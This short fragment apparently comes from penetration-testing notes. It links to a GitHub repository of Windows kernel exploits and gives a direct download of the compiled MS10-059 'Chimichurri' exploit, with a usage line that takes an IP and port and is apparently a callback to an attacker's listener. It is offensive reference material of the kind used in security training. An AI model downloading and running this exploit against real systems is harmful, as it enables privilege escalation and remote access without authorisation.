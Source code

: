 ### MS10-059 (Binary shared by @egre55)

https://github.com/egre55/windows-kernel-exploits

Direct Download  
https://github.com/egre55/windows-kernel-exploits/raw/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

Usage
```
.\Chimichurri.exe <IP> <PORT>
```
